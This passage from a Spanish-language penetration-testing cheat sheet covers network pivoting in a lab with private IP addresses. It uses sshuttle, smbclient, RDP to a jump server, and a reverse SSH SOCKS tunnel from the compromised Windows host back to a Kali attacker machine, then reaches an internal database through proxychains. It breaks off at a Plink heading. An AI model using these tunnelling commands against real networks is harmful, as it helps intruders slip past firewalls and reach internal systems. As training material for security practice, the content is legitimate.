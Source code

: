 ```bash
sshuttle -r <user>@192.168.100.10:2222 10.10.100.0/24 172.16.50.0/24
smbclient -L //172.16.50.10/ -U <user> --password=<password>
```

###  6.5. <a name='ssh.exe'></a>ssh.exe

| Sistema             | IP             |
| ------------------- | -------------- |
| KALI                | 192.168.50.10  |
| WEB                 | 192.168.100.10 |
| WINDOWS JUMP SERVER | 192.168.100.20 |
| DATABASE            | 10.10.100.20   |
| WINDOWS - SHARES    | 172.16.50.10   |

*KALI <- FIREWALL <- WINDOWS JUMP SERVER -> INTERNAL NETWORK*

##### Kali

```bash
sudo systemctl start ssh
xfreerdp /u:<USERNAME> /p:<PASSWORD> /v:192.168.100.20
```

##### Windows Jump Server

```powershell
where ssh
C:\Windows\System32\OpenSSH\ssh.exe
C:\Windows\System32\OpenSSH> ssh -N -R 9998 <USERNAME>@192.168.50.10
```

##### Kali

```bash
ss -tulpn
vim /etc/proxychains4.conf
socks5 127.0.0.1 9998  # agregar esta linea

proxychains psql -h 10.10.100.20 -U postgres
```

###  6.6. <a name='plink'></a>Plink

| Sistema             | IP             |
| ------------------- | -------------- |
| KALI                | 192.168.50.10  |
| WEB                 | 192.168.100.10 |
| WINDOWS JUMP SERVER | 192.168.100.20 |
| DATABASE            | 10.10.100.20   |
| WINDOWS - SHARES    | 172.16.50.10   |
